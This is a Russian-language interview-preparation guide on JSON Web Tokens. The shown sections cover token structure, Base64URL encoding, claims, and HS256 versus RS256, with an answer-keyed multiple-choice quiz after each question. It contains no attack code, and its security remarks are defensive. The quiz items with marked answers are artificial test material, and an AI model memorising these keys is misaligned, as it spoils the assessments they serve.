









# Вопросы на собеседовании: `JWT`

`JWT` (JSON Web Token) — стандарт (RFC 7519) для безопасной передачи данных между сторонами в виде JSON-объекта, подписанного (и опционально зашифрованного). Широко применяется в REST API, микросервисах и OAuth2/OpenID Connect. На интервью тема JWT часто проверяет понимание не только механики токенов, но и security-аспектов, trade-offs и паттернов хранения.

## Полезные ссылки

### Официальная документация

- [RFC 7519 — JSON Web Token](https://datatracker.ietf.org/doc/html/rfc7519) — спецификация JWT
- [RFC 7515 — JSON Web Signature (JWS)](https://datatracker.ietf.org/doc/html/rfc7515) — спецификация JWS
- [RFC 7516 — JSON Web Encryption (JWE)](https://datatracker.ietf.org/doc/html/rfc7516) — спецификация JWE
- [RFC 7517 — JSON Web Key (JWK)](https://datatracker.ietf.org/doc/html/rfc7517) — спецификация JWK
- [Baeldung: JWT with JJWT](https://www.baeldung.com/java-json-web-tokens-jjwt) — практическое руководство по JWT в Java
- [Baeldung: Spring Security OAuth2 Resource Server](https://www.baeldung.com/spring-security-oauth-resource-server) — настройка Resource Server
- [Baeldung: JWS + JWK в Spring Security OAuth2](https://www.baeldung.com/spring-security-oauth2-jws-jwk) — JWS и JWKS
- [PortSwigger: JWT attacks](https://portswigger.net/web-security/jwt) — атаки на JWT
- [OWASP: Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens) — тестирование JWT безопасности

## Содержание

- [Полезные ссылки](#полезные-ссылки)
- [See also](#see-also)

**Структура и основы JWT**
- [Q1. (!) Что такое JWT и из каких частей он состоит?](#q1-что-такое-jwt-и-из-каких-частей-он-состоит)
- [Q2. Как кодируется каждая часть JWT?](#q2-как-кодируется-каждая-часть-jwt)
- [Q3. (!) Что такое claims в JWT? Какие типы существуют?](#q3-что-такое-claims-в-jwt-какие-типы-существуют)
- [Q4. Какие registered claims определены в RFC 7519?](#q4-какие-registered-claims-определены-в-rfc-7519)
- [Q5. Является ли payload JWT зашифрованным?](#q5-является-ли-payload-jwt-зашифрованным)

**Алгоритмы подписи**
- [Q6. (!) Какие алгоритмы подписи поддерживает JWT? Когда что использовать?](#q6-какие-алгоритмы-подписи-поддерживает-jwt-когда-что-использовать)
- [Q7. В чём разница между HS256 и RS256?](#q7-в-чём-разница-между-hs256-и-rs256)
- [Q8. Что такое ES256 и когда его предпочесть?](#q8-что-такое-es256-и-когда-его-предпочесть)

**JWS, JWE, JWKS**
- [Q9. (!) В чём разница между JWT, JWS и JWE?](#q9-в-чём-разница-между-jwt-jws-и-jwe)
- [Q10. Что такое JWKS и для чего используется?](#q10-что-такое-jwks-и-для-чего-используется)
- [Q11. Как клиент проверяет подпись с помощью JWKS?](#q11-как-клиент-проверяет-подпись-с-помощью-jwks)

**Access Token и Refresh Token**
- [Q12. (!) В чём разница между Access Token и Refresh Token?](#q12-в-чём-разница-между-access-token-и-refresh-token)
- [Q13. (!) Что такое Refresh Token Rotation?](#q13-что-такое-refresh-token-rotation)
- [Q14. Где хранить Access Token и Refresh Token на клиенте?](#q14-где-хранить-access-token-и-refresh-token-на-клиенте)

**Хранение и безопасность на клиенте**
- [Q15. (!) localStorage vs httpOnly cookie — где хранить JWT?](#q15-localstorage-vs-httponly-cookie--где-хранить-jwt)
- [Q16. Как JWT связан с CSRF-атаками?](#q16-как-jwt-связан-с-csrf-атаками)
- [Q17. Как JWT связан с XSS-атаками?](#q17-как-jwt-связан-с-xss-атаками)

**Валидация и отзыв токенов**
- [Q18. (!) Как правильно валидировать JWT на сервере?](#q18-как-правильно-валидировать-jwt-на-сервере)
- [Q19. (!) Проблема отзыва JWT — как её решать?](#q19-проблема-отзыва-jwt--как-её-решать)
- [Q20. Что такое Token Introspection?](#q20-что-такое-token-introspection)
- [Q21. Как использовать claim `jti` для blacklisting?](#q21-как-использовать-claim-jti-для-blacklisting)

**JWT vs Session-based аутентификация**
- [Q22. (!) JWT vs Session-based аутентификация — сравнение и trade-offs](#q22-jwt-vs-session-based-аутентификация--сравнение-и-trade-offs)
- [Q23. Является ли JWT stateless?](#q23-является-ли-jwt-stateless)

**Уязвимости**
- [Q24. (!) Атака «алгоритм none» — в чём суть и как защититься?](#q24-атака-алгоритм-none--в-чём-суть-и-как-защититься)
- [Q25. (!) Что такое Algorithm Confusion Attack (RS256 → HS256)?](#q25-что-такое-algorithm-confusion-attack-rs256--hs256)
- [Q26. Какие ещё уязвимости JWT существуют?](#q26-какие-ещё-уязвимости-jwt-существуют)
- [Q27. Что такое JWT Header Injection?](#q27-что-такое-jwt-header-injection)

**Spring Security интеграция**
- [Q28. (!) Как настроить Spring Security Resource Server с JWT?](#q28-как-настроить-spring-security-resource-server-с-jwt)
- [Q29. Что такое JwtDecoder и как его настроить?](#q29-что-такое-jwtdecoder-и-как-его-настроить)
- [Q30. Как маппировать authorities из JWT claims в Spring Security?](#q30-как-маппировать-authorities-из-jwt-claims-в-spring-security)
- [Q31. Как генерировать JWT в Spring Boot приложении?](#q31-как-генерировать-jwt-в-spring-boot-приложении)
- [Q32. Как тестировать JWT-защищённые эндпоинты в Spring?](#q32-как-тестировать-jwt-защищённые-эндпоинты-в-spring)

**OpenID Connect и OAuth2**
- [Q33. (!) Какую роль играет JWT в OpenID Connect?](#q33-какую-роль-играет-jwt-в-openid-connect)
- [Q34. Что такое ID Token и чем он отличается от Access Token?](#q34-что-такое-id-token-и-чем-он-отличается-от-access-token)

**Best Practices**
- [Q35. (!) Какие best practices при работе с JWT?](#q35-какие-best-practices-при-работе-с-jwt)
- [Q36. Какой должен быть срок жизни Access Token и Refresh Token?](#q36-какой-должен-быть-срок-жизни-access-token-и-refresh-token)
- [Q37. Стоит ли хранить чувствительные данные в JWT payload?](#q37-стоит-ли-хранить-чувствительные-данные-в-jwt-payload)

**Продвинутые темы**
- [Q38. Как JWT используется в OAuth 2.0 и OIDC?](#q38-как-jwt-используется-в-oauth-20-и-oidc)
- [Q39. JWT rotation — скользящий срок действия и silent refresh](#q39-jwt-rotation--скользящий-срок-действия-и-silent-refresh)
- [Q40. Хранение JWT в мобильных приложениях — безопасные практики](#q40-хранение-jwt-в-мобильных-приложениях--безопасные-практики)
- [Q41. Что такое Nested JWT (JWE + JWS) и когда применять?](#q41-что-такое-nested-jwt-jwe--jws-и-когда-применять)
- [Q42. JWT vs Paseto — почему Paseto создан как альтернатива?](#q42-jwt-vs-paseto--почему-paseto-создан-как-альтернатива)
- [Q43. JWKS (JSON Web Key Set) — как работает и Spring Security JwkSetUri](#q43-jwks-json-web-key-set--как-работает-и-spring-security-jwkseturi)

---

## Q1. (!) Что такое JWT и из каких частей он состоит?

**JWT** (JSON Web Token, RFC 7519) — компактный, URL-safe формат для передачи заявлений (`claims`) между двумя сторонами. Данные подписываются, что позволяет верифицировать целостность и подлинность, не обращаясь к базе данных.

JWT состоит из **трёх частей**, разделённых точкой:

```
header.payload.signature
```

**Пример JWT:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiJ1c2VyMTIzIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNzAwMDAwMDAwLCJleHAiOjE3MDAwMDM2MDB9.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

| Часть | Что содержит |
|-------|-------------|
| **Header** | Тип токена (`JWT`) и алгоритм подписи (`alg`) |
| **Payload** | Claims — данные о субъекте и метаданные |
| **Signature** | Криптографическая подпись header + payload |



**Ключевое:** JWT — это **не шифрование**, а **подпись**. Payload виден любому, кто декодирует Base64.

> [!mcq]
> - [ ] JWT состоит из двух частей (`header.payload`); подпись добавляется только для зашифрованного токена. | Неверно: стандартный JWS-токен всегда состоит из трёх частей. ❌ ПОСЛЕДСТВИЕ: написанный «вручную» парсер на двух частях молча принимает токены без подписи — auth-bypass на любом эндпоинте.
> - [x] JWT состоит из трёх частей (`header.payload.signature`), разделённых точкой; каждая часть кодируется Base64URL, payload не шифруется. | Корректная структура JWS по RFC 7515: три Base64URL-сегмента через точку, подпись покрывает `header.payload`. Payload читается через `base64 -d` без ключа. ✓ ПРИМЕНЯТЬ: Auth0, Keycloak, Spring Authorization Server — все выдают токены ровно в этом формате. 📋 ПРАВИЛО: «три точки, две части подписи». 🔗 См. Q5, Q9.
> - [ ] JWT состоит из трёх частей; payload всегда зашифрован AES-256, поэтому хранение PII в нём безопасно. | Это описание JWE, а не стандартного JWS. ❌ ПОСЛЕДСТВИЕ: команда кладёт SSN/PAN в payload «потому что зашифровано» — claims читаются клиентом, GDPR-инцидент с PII в браузерных DevTools.
> - [ ] JWT состоит из трёх частей; header содержит данные пользователя, payload — алгоритм подписи. | Поля перепутаны: header хранит `alg`/`typ`, payload — claims. ❌ ПОСЛЕДСТВИЕ: при ручной валидации Resource Server читает `alg` из payload, не находит и пропускает токен без проверки подписи — полный обход аутентификации.

---

## Q2. Как кодируется каждая часть JWT?

Каждая часть кодируется с помощью **Base64URL** (модификация Base64: символы `+` → `-`, `/` → `_`, без `=` padding). Это делает JWT безопасным для URL и HTTP-заголовков.

```json
// Header (decoded)
{
  "alg": "HS256",
  "typ": "JWT"
}

// Payload (decoded)
{
  "sub": "user123",
  "name": "John Doe",
  "iat": 1700000000,
  "exp": 1700003600
}
```

**Signature** формируется так:
```
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  secret
)
```

Для RS256 вместо HMAC используется RSA-подпись с приватным ключом:
```
RSA_SIGN_SHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  privateKey
)
```

> [!mcq]
> - [ ] Части JWT кодируются стандартным `Base64` с padding-символами `=`. | `+`, `/` и `=` ломаются в URL и HTTP-заголовках без дополнительного encoding. ❌ ПОСЛЕДСТВИЕ: токен с `=` в query-параметре обрезается прокси на `?token=...=` — 401 на части запросов после миграции form-body→query.
> - [x] Части JWT кодируются `Base64URL` без padding (`+`→`-`, `/`→`_`), что делает токен безопасным для URL, заголовков и cookie. | URL-safe вариант Base64 по RFC 4648 §5: можно класть в Authorization header, cookie value и query без `urlencode`. ✓ ПРИМЕНЯТЬ: `java.util.Base64.getUrlEncoder().withoutPadding()` в Spring Authorization Server. 📋 ПРАВИЛО: «URL-safe — минус, подчерк, без равно». 🔗 См. Q1, Q5.
> - [ ] Части JWT кодируются `hex` (шестнадцатеричным представлением). | Hex удваивает размер: 1 байт → 2 символа против 3 байт → 4 символа в Base64URL. ❌ ПОСЛЕДСТВИЕ: токен раздувается с ~600 байт до ~1.2 КБ, превышает лимит 4 КБ cookie или 8 КБ HTTP-header у nginx — 502 на длинных claims-наборах.
> - [ ] Части JWT кодируются `URL-encoding` (percent-encoding). | Percent-encoding бинарных данных раздувает каждый non-ASCII байт в 3 символа `%XX`. ❌ ПОСЛЕДСТВИЕ: подпись из 32 случайных байт даёт ~96 символов вместо 43 — токен в три раза больше, проблемы с CDN-лимитами на размер заголовков.

---

## Q3. (!) Что такое claims в JWT? Какие типы существуют?

**Claims** — это утверждения (пары ключ-значение) в payload JWT, содержащие информацию о субъекте и метаданные токена.

RFC 7519 определяет три типа claims:

| Тип | Описание | Примеры |
|-----|----------|---------|
| **Registered** | Стандартизированные, зарезервированные IANA | `iss`, `sub`, `exp`, `iat`, `jti`, `aud`, `nbf` |
| **Public** | Публично зарегистрированные, избегают коллизий | `name`, `email`, `picture` (OpenID) |
| **Private** | Кастомные, договорные между сторонами | `role`, `tenantId`, `permissions` |

```json
{
  "iss": "https://auth.example.com",
  "sub": "user123",
  "aud": "api.example.com",
  "exp": 1700003600,
  "iat": 1700000000,
  "jti": "unique-token-id-abc123",
  "email": "user@example.com",
  "roles": ["ROLE_USER", "ROLE_ADMIN"]
}
```

**Совет интервьюеру:** registered claims — рекомендованы, но не обязательны. Их короткие имена (`sub`, `exp`) обусловлены задачей компактности.

> [!mcq]
> - [ ] RFC 7519 определяет два типа claims: `registered` (обязательные) и `private` (кастомные); `public` не существуют. | Типов три, и `registered` не обязательны. ❌ ПОСЛЕДСТВИЕ: команда требует `iss` обязательным во всех своих токенах, забывает про токены сервис-сервис без issuer — 401 на каждом внутреннем вызове после миграции на новый валидатор.
> - [ ] RFC 7519 определяет три типа: `registered` (IANA), `private` (публично зарегистрированные), `public` (кастомные, договорные). | `public` и `private` перепутаны местами. ❌ ПОСЛЕДСТВИЕ: разработчик называет внутренний claim `email` в надежде «private не конфликтует» и сталкивается с коллизией с OIDC `email` — на интеграции с Keycloak claims переписываются.
> - [x] RFC 7519 определяет три типа claims: `registered` (стандартизованные IANA — `iss`, `sub`, `exp`), `public` (публично зарегистрированные — `name`, `email` в OpenID) и `private` (договорные — `role`, `tenantId`). | Корректная классификация: `registered` имеют короткие имена для компактности, `public` зарегистрированы в IANA JWT Claims Registry для избежания коллизий, `private` — приватное соглашение между AS и RS. ✓ ПРИМЕНЯТЬ: Auth0 кладёт кастомные claims в namespaced URI (`https://myapp.com/role`) — типичный private claim. 📋 ПРАВИЛО: «registered коротко, public в реестре, private по договору». 🔗 См. Q4, Q37.
> - [ ] RFC 7519 определяет три типа claims; все три типа обязательны для каждого JWT. | Claims любого типа опциональны. ❌ ПОСЛЕДСТВИЕ: валидатор отклоняет refresh-токены AS из-за отсутствия `aud` (RT часто без audience) — пользователи не могут продлить сессию, поток падает на refresh-эндпоинте.

---

## Q4. Какие registered claims определены в RFC 7519?

| Claim | Полное название | Описание |
|-------|----------------|----------|
| `iss` | Issuer | Кто выдал токен (URL или имя сервиса) |
| `sub` | Subject | Субъект токена (обычно userId) |
| `aud` | Audience | Для кого предназначен токен (Resource Server) |
| `exp` | Expiration Time | Unix timestamp истечения срока |
| `nbf` | Not Before | Токен невалиден раньше этого времени |
| `iat` | Issued At | Время выдачи токена |
| `jti` | JWT ID | Уникальный идентификатор токена |

**Важно при валидации:** сервер обязан проверять `exp` (обязательно), `iss` (если известен), `aud` (если предназначен конкретному ресурсу). Игнорирование `aud` — частая уязвимость.

> [!mcq]
> - [ ] Claim `iss` (Issuer) содержит Unix timestamp истечения срока действия токена. | `iss` — строковый идентификатор того, кто выдал токен (URL AS), а не timestamp. ❌ ПОСЛЕДСТВИЕ: разработчик пишет `if (jwt.getIss() < now())` — компилятор молча приведёт String к long через парсинг, NumberFormatException на каждом запросе.
> - [ ] Claim `sub` (Subject) содержит Unix timestamp истечения срока действия токена. | `sub` — идентификатор субъекта (userId), строка, не timestamp. ❌ ПОСЛЕДСТВИЕ: токен «не истекает» по `sub`, прокси кэширует ответ — отозванный пользователь продолжает работать сутками после logout.
> - [x] Claim `exp` (Expiration Time) содержит Unix timestamp истечения срока действия токена и обязательно проверяется сервером при валидации. | RFC 7519 §4.1.4: `exp` — секунды от Unix epoch, валидатор отвергает токен при `now > exp`. Допускается leeway 30-60 сек для clock skew между AS и RS. ✓ ПРИМЕНЯТЬ: Spring Security `JwtTimestampValidator` по умолчанию даёт 60 сек leeway. 📋 ПРАВИЛО: «exp — единственная обязательная проверка времени». 🔗 См. Q18, Q35.
> - [ ] Claim `aud` (Audience) содержит Unix timestamp истечения срока действия токена. | `aud` — идентификатор Resource Server (string или array of strings), не timestamp. ❌ ПОСЛЕДСТВИЕ: команда не проверяет `aud`, но ставит «timestamp в aud» — токен AS-A принимается RS-B (Token Substitution Attack), захват ресурсов чужого сервиса через переиспользование валидного токена.

---

## Q5. Является ли payload JWT зашифрованным?

**Нет.** Payload в стандартном JWT (`JWS`) только **подписан**, но не зашифрован. Он кодируется в Base64URL, которое легко декодировать:

```bash
# Декодирование payload (вторая часть JWT)
echo "eyJzdWIiOiJ1c2VyMTIzIn0" | base64 -d
# {"sub":"user123"}
```

Это означает:
- Любой, у кого есть токен, видит все claims
- **Нельзя хранить пароли, секреты, PII** в payload без дополнительного шифрования
- Подпись гарантирует **целостность**, а не конфиденциальность

Для шифрования payload нужно использовать **JWE** (JSON Web Encryption), где payload зашифрован симметрично или асимметрично.

> [!mcq]
> - [ ] Payload JWT зашифрован `Base64URL`, для декодирования нужен ключ подписи. | Base64URL — это кодирование, не шифрование, обратимо без ключа. ❌ ПОСЛЕДСТВИЕ: команда хранит `password_hash` в payload «потому что подписан» — любой клиент через `jwt.io` видит хеш, начинается offline-brute-force, утечка пользовательских паролей.
> - [x] Payload JWT не зашифрован — он лишь `Base64URL`-кодирован и доступен любому, у кого есть токен; для конфиденциальности payload нужен JWE. | JWS гарантирует только integrity + authenticity через подпись. Payload читается через `base64 -d` или `jwt.io` за секунды. ✓ ПРИМЕНЯТЬ: банковский FAPI требует Nested JWT (JWS внутри JWE) для request objects с PII. 📋 ПРАВИЛО: «JWS подписан, но прозрачен — секреты только в JWE». 🔗 См. Q9, Q37, Q41.
> - [ ] Payload JWT подписан и зашифрован одновременно: HMAC даёт integrity, AES-GCM — confidentiality в одной операции. | JWS — только подпись; одновременное шифрование требует JWE или Nested JWT. ❌ ПОСЛЕДСТВИЕ: разработчик ставит `alg: HS256` и считает payload секретным, кладёт refresh_token внутрь access_token — RT утекает через любой DevTools, полный захват аккаунта.
> - [ ] Payload зашифрован только в режиме `RS256`; при `HS256` остаётся открытым. | Алгоритм подписи не влияет на шифрование — оба не шифруют. ❌ ПОСЛЕДСТВИЕ: миграция с HS256 на RS256 «для конфиденциальности» — payload всё равно виден, а команда теряет недели на бесполезный refactor вместо внедрения JWE.

---

## Q6. (!) Какие алгоритмы подписи поддерживает JWT? Когда что использовать?

JWT поддерживает три семейства алгоритмов:

| Алгоритм | Тип | Ключ | Когда использовать |
|----------|-----|------|---------------------|
| **HS256/HS384/HS512** | HMAC (симметричный) | Один общий секрет | Монолит, микросервисы с доверенной сетью |
| **RS256/RS384/RS512** | RSA (асимметричный) | Приватный/публичный ключ | Authorization Server + Resource Server |
| **ES256/ES384/ES512** | ECDSA (асимметричный) | EC приватный/публичный ключ | Когда нужны малые ключи и высокая скорость |
| **PS256/PS384/PS512** | RSASSA-PSS | Приватный/публичный ключ | Более безопасная замена RS256 |
| **EdDSA** | Edwards-curve | Ed25519/Ed448 | Современные системы |

**Правило выбора:**
- **HS256** — если `iss` и Resource Server одно приложение или разделяют секрет через безопасный канал
- **RS256** — стандарт для OAuth2/OIDC: Authorization Server подписывает приватным ключом, Resource Server верифицирует публичным
- **ES256** — предпочтителен при ограниченных ресурсах (IoT) или необходимости малого размера ключей

> [!mcq]
> - [ ] Для микросервисной архитектуры с несколькими Resource Server рекомендуется `HS256` — самый быстрый симметричный алгоритм. | HS256 в микросервисах требует распространения общего секрета всем сервисам. ❌ ПОСЛЕДСТВИЕ: компрометация любого сервиса (например, через RCE на debug-эндпоинте) даёт атакующему секрет — он подделывает токены от имени AS, полный takeover платформы.
> - [x] Для микросервисной архитектуры с несколькими Resource Server рекомендуется `RS256`: AS подписывает приватным ключом, каждый RS верифицирует публичным ключом из JWKS. | Асимметричная модель OAuth2/OIDC: приватный ключ только у AS, публичный распространяется через `/.well-known/jwks.json` без секрета. Компрометация RS не даёт возможности подписывать. ✓ ПРИМЕНЯТЬ: Auth0, Okta, Keycloak по умолчанию подписывают access tokens RS256 + публикуют JWKS. 📋 ПРАВИЛО: «много RS — асимметрия, JWKS, kid». 🔗 См. Q7, Q10, Q25.
